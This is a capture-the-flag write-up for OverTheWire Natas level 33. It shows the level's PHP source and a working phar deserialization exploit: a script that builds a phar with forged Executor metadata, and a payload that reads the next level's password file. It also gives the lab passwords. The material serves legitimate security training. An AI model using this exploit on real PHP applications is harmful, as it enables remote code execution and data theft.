 # Level 33

## Challenge Details 

- **CTF:** OverTheWire
- **Category:** Natas

## Provided Materials

- [http://natas33.natas.labs.overthewire.org](http://natas33.natas.labs.overthewire.org)
- username: `natas33`
- password: `APwWDD3fRAf6226sgBOBaSptGwvXwQhG`

## Solution

![start](./start.jpg)

Let's see the sourcecode:

```php
<?php
    // graz XeR, the first to solve it! thanks for the feedback!
    // ~morla
    class Executor{
        private $filename=""; 
        private $signature='adeafbadbabec0dedabada55ba55d00d';
        private $init=False;

        function __construct(){
            $this->filename=$_POST["filename"];
            if(filesize($_FILES['uploadedfile']['tmp_name']) > 4096) {
                echo "File is too big<br>";
            }
            else {
                if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], "/natas33/upload/" . $this->filename)) {
                    echo "The update has been uploaded to: /natas33/upload/$this->filename<br>";
                    echo "Firmware upgrad initialised.<br>";
                }
                else{
                    echo "There was an error uploading the file, please try again!<br>";
                }
            }
        }

        function __destruct(){
            // upgrade firmware at the end of this script

            // "The working directory in the script shutdown phase can be different with some SAPIs (e.g. Apache)."
            chdir("/natas33/upload/");
            if(md5_file($this->filename) == $this->signature){
                echo "Congratulations! Running firmware update: $this->filename <br>";
                passthru("php " . $this->filename);
            }
            else{
                echo "Failur! MD5sum mismatch!<br>";
            }
        }
    }
?>
```

So if our file `MD5` signature matches `adeafbadbabec0dedabada55ba55d00d`, our `PHP` code will be executed, but it's almost impossible, so by googling `php md5_file() vulnerabilities` I found [this](https://www.sonarsource.com/blog/new-php-exploitation-technique/) page and [this](https://www.slideshare.net/ripstech/new-php-exploitation-techniques#25).

And we can see that our `md5_file()` is indeed vulnerable:

![vuln](./vuln.jpg)

Here is the exploitation script on [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization). We just need to make slightly modifications. First create this `phar.php` file:

```php
<?php

class Executor{
    private $filename="pwned.php"; # name of our file
    private $signature=True; # so md5_file($this->filename) == $this->signature will be true
    private $init=False;
}

// create new Phar
$phar = new Phar('natas33.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub("<?php __HALT_COMPILER(); ?>");

// add object of Executor class as meta data
$object = new Executor();
$object->data = "pwned";
$phar->setMetadata($object);
$phar->stopBuffering();

?>
``` 

Then we need to create our `pwned.php` file to read the password:

```php
<?php echo file_get_contents("/etc/natas_webpass/natas34"); ?>
```

Then compile our `phar.php`:

```sh
$ php --define phar.readonly=0 phar.php
```

This will give us `natas33.phar` file. Now we need to upload it with our `pwned.php` and by intercepting them with Burp, change their names:

![phar](./phar.jpg)

![pwned](./pwned.jpg)

So they will be shown as:

![shown](./shown.jpg)

Lastly we need to call `natas33.phar` with `phar` protocol instead of giving it a filename:

![pass](./pass.jpg)

## Password

`natas34`:`F6Fcmavn8FgZgrAPOvoLudNr1GwQTaNG`

*Created by [bu19akov](https://github.com/bu19akov)*
